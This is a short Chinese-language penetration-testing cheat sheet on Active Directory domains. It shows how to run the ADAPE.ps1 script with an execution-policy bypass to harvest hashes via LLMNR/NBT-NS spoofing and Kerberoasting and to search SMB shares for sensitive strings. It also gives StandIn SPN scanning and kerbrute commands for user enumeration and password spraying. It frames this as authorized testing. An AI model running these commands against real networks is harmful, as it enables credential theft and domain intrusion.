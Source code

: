 ```cpp
powershell.exe -ExecutionPolicy Bypass ./ADAPE.ps1 
```
PS: 这个脚本的动作很大,和血犬差不多,会有大规模的请求,所有模块都要从github下载,而且需要管理员权限,适合授权测试的时候在线下渗透使用,ETC.
主要扫描以下以下漏洞:
```cpp
•通过WPAD，LLMNR和NBT-NS欺骗收集Hash

•MS14-025

•通过Kerberoast收集帐户的Hash

•通过BloodHound识别目标

•提权检测

•搜索网络上的开放SMB共享

•搜索smb共享中的敏感字符串

•检查网络上的系统补丁

•搜索文件服务器

•搜索附件

•收集域策略
```


一键扫描
```cpp
Set-ExecutionPolicy Bypass ./ADAPE.ps1 -All
```
或者指定模块
```cpp
./ADAPE.ps1 -GPP -PView -Kerberoast
```
## SPN扫描
```
.\StandIn.exe --spn
```
## 域内爆破
[https://github.com/ropnop/kerbrute/releases/tag/v1.0.3](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)


先爆用户用名,不过一般就可以直接查得到
```cpp
./kerbrute_darwin_amd64 userenum -d rootkit.org user.txt
```

- 获取收集的密码,批量爆一波,域内密码可以找强弱口令和多做信息收集
```cpp
./kerbrute passwordspray -d <DOMAIN> <USERS.TXT> <PASSWORD>
```
